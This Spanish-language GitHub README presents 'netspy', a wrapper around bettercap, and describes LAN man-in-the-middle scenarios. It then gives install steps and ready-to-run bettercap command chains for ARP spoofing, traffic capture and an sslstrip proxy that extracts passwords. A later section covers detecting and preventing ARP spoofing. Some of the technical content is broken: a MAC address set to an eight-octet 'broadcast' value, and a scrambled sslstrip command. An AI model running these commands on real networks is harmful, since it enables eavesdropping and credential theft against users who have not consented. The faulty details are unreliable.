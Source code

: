 # Interceptacion Ethernet (MiTM)  de trafico LAN en claro:

### Estenarios:

## 1º.- Interceptación entre 2 dispositivos; 

Disponer de  acceso y privilegios suficientes  en uno de los 2 dispositivos A ---//...B , e instalar, para interceptar el trafico de algun interfaces, en alguno de los extremos: Wireshark, dsniff, Smartsnif nifsoft, Bettercap, Ethercap, Extension navegador, netspy, tcpdump etc..

## 2º.- red LAN con HUB o switch basico "sin inteligencia"

Instalar un HUB en el medio de una red, por su modo de funcionamiento rebotan todos los pquete en todas las MAC y paquete Ethernet, par interceptación.

Instalar un PC conectado al HUB, con la  tarjeta  de red en modo promiscuo, que escuche todo el trafico de la red. Tener instalado Wireshark, netspy,etc

Modificar MAC Adrees de un PC conectado a la red, con la MAC Broadcast FF:FF:FF:FF:FF:FF:FF:FF que escurche todo el trafico de la red

## 3º.- En una red LAN con conmutadores Switch inteligente configurable :

Configurar port mirroning en el switch para que una copia de todo el trafico se encamine a una sola ethernet del switch, donde hay un PC en modo promiscuo con Wirehark, netspy, etc.. capturando 

En un PC conectado a la red instalar un Proxy, para hacer pasar, encaminar por configuracion o por ARP Spoofing, el trafico por el e interceptar el trafico!

En un PC conectado instala un Proxy trasparente. Usa ARP Spoofing, suplantación de MAC, para encaminar y poder ver e interceptar  el trafico de otros dispositivos!

## 4º.- Instalar  en: pasarelas, FW , routers, swithes, etc.. equipos en medio de las redes para interceptación: HUBS, switches port mirronig, proxyes, TAB .. 

<img style="float:left" alt="Escenarios interceptacion" src="https://github.com/hackingyseguridad/netspy/blob/master/MiTM.png">

** https://www.bettercap.org/ Beettercap combina ARP Spoofing y proxy trasparte

<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

## 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

## Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

## Uso.:

sh netspy

sh proxynetspy

netdiscover

IMPORTANTE: Para salir del modo de descubrimiento 'net probe on' y empezar a esnifar teclea 'exit'.

## Bettercap v2.9

Escanear toda la Red:

net.probe on; ticker on

Banear tarjet IP con ARP:

set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver trafico web por proxy y extrae claves:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on; set http.proxy.sslstrip true

Ver trafico web por proxy y extrae claves de cifrados debiles:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on;  true; set http.proxy.port 80; set https.proxy.port 443; http.proxy on; https.proxy on; set http.proxy.sslstrip

Versiones antiguas Bettercap: 1.6.1 y 1.6.2 en Python

El ARP Spoofing, o envenenamiento ARP, es un tipo de ataque que puede comprometer seriamente la seguridad de una red local. Consiste en la manipulación de la MAC Addres y por tanto tabla ARP de un dispositivo para redirigir el tráfico de red hacia el atacante, permitiéndole interceptar y modificar la información que fluye por la red.
¿Cómo detectar un ataque de ARP Spoofing?
Este tipo de ataque suele ser silencioso y difícil de detectar a simple vista, es fundamental contar con herramientas y técnicas específicas. P.ej:

Herramientas de Detección:

•	Sistemas de detección de intrusiones (IDS): Un IDS bien configurado puede detectar anomalías en el tráfico de red, como un aumento repentino en el número de solicitudes ARP o respuestas ARP falsas.

•	Sniffers de paquetes: Herramientas como Wireshark te permiten analizar el tráfico de red en tiempo real. Al examinar los paquetes ARP, puedes identificar patrones inusuales o respuestas ARP falsas.

•	Herramientas especializadas: Existen herramientas diseñadas específicamente para detectar ARP Spoofing, como ARPwatch, que monitorea la tabla ARP y alerta sobre cambios inesperados.

Técnicas de Detección:
•	Problemas de conectividad: Dificultad para acceder a ciertos sitios web o servicios de red.
•	Monitoreo de la tabla ARP: Revisa regularmente la tabla ARP de los dispositivos de tu red para identificar entradas desconocidas o duplicadas.
•	Análisis de registros: Examina los registros del sistema y de las herramientas de seguridad para buscar cualquier indicio de actividad sospechosa, como intentos de acceso no autorizados o cambios en la configuración de la red.
•	Pruebas de penetración: Realiza pruebas de penetración periódicas para identificar vulnerabilidades en tu red y evaluar la efectividad de tus medidas de seguridad.
•	Uso de protocolos de seguridad: Implementa protocolos de seguridad como DHCP Snooping, IP Source Guard y Dynamic ARP Inspection (DAI), que pueden ayudar a prevenir y detectar ataques de ARP Spoofing.
Síntomas de un Ataque de ARP Spoofing:
Aunque no siempre son evidentes, algunos síntomas pueden indicar un ataque de ARP Spoofing:
•	Pérdida de paquetes: Interrupciones en la comunicación o lentitud en la red.
•	Actividad sospechosa en la red: Detección de tráfico no autorizado o intentos de acceso a recursos sensibles.
•	Cambios inesperados en la configuración de red: Modificaciones no autorizadas en la configuración de los dispositivos de red.

Prevención del ARP Spoofing:
•	Configuraciones estáticas: Establece entradas ARP estáticas para dispositivos críticos, como routers y servidores.  habilitar "client isolation",
•	Segmentación de redes: Divide tu red en segmentos más pequeños para limitar el impacto de un posible ataque.
•	Actualizaciones de software: Mantén todos tus dispositivos actualizados con los últimos parches de seguridad.
•	Educación de los usuarios: Sensibiliza a los usuarios sobre los riesgos de los ataques cibernéticos y cómo protegerse.
•	implementar nuevo ARP firmado con certificado y clave PKI

https://github.com/hackingyseguridad/mitm

www.hackingyseguridad.com
